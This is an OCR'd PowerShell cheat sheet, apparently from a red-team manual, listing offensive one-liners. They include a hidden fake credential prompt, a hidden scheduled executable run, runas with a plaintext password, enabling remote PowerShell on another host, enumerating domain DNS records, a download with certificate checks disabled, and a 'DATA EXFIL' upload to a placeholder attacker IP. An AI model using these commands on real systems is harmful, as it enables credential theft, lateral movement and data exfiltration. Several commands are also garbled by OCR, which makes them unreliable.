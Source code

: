 $ping = New-Object System.Net.Networkinformation.ping $ping.Send(" ip ",500)


BASIC AUTHENTICATION POPUP

powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass $Host.UI.PromptForCredential(" title "," message "," user "," domain ")


RUN EXE EVERY 4 HOURS BETWEEN AUG 8-11 , 2013 AND THE HOURS OF 0800-1700 (FRom CMD EXE )

powershell.exe -Command "do {if ((Get-Date -format yyyyMMdd-HHmm) -match '201308(0[8-9111[0-1])-(0[8-9]11[0--1)[0-5][0-9]fl{Start-Process - WindowStyle Hidden "C:\Temp\my.exe";Start-Sleep -s 14400}}while(1)"


POWERSHELL RUNAS

$pw = convertto-securestring -string "PASSWORD" -asplaintext -force;
$pp = new-object -typename System.Management.Automation.PSCredential - argumentlist "DOMAIN\user", $pw;
Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process file.exe -verb runas}f


EMAIL SENDER

powershell.exe Send-MailMessage -to " email " -from " email " -subject "Subject" -a " attachment file path " -body "Body" -SmtpServer Target Email Server IP


TURN ON POWERSHELL REMOTING (WITH VALID CREDENTIALS)

net time \\ip
at \\ip time "Powershell -Command 'Enable-PSRemoting -Force'" at \\ip time+1 "Powershell -Command 'Set-Item wsman:\localhost\client\trustedhosts
at \\ip time+2 "Powershell -Command 'Restart-Service WinRM'" Enter-PSSession -ComputerName ip -Credential username


LIST HOSTNAME AND IP FOR ALL DOMAIN COMPUTERS

Get-WmiObject -ComputerName DC -Namespace root\microsoftDNS -Class MicrosoftDNS_ResourceRecord -Filter "domainname=1 DOMAIN '" 'select textrepresentation


### POWERSHELL DOWNLOAD OF A FILE FROM A SPECIFIED LOCATION

powershell.exe -noprofile -noninteractive -command
"[System.Net.ServicePointHanager]::ServerCertificateValidationCallback = {$true}; $source="""https:// YOUR_SPECIFIED_IP / file.zip ""; $destination="C:\master.zip"; $http = new-object System.Net.WebClient; $response = $http.DownloadFile($source, $destination);"


### POWERSHELL DATA EXFIL

Script will send a file ($filepath) via http to server ($server) via POST request. Must have web server listening on port designated in the $server
powershell.exe -noprofile -noninteractive -command
"[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}; $server="http:// YOUR_SPECIFIED_IP / folder "; $filepath="C:\master.zip"; $http = new-object System.Net.WebClient; $response = $http.UploadFile($server,$filepath);"
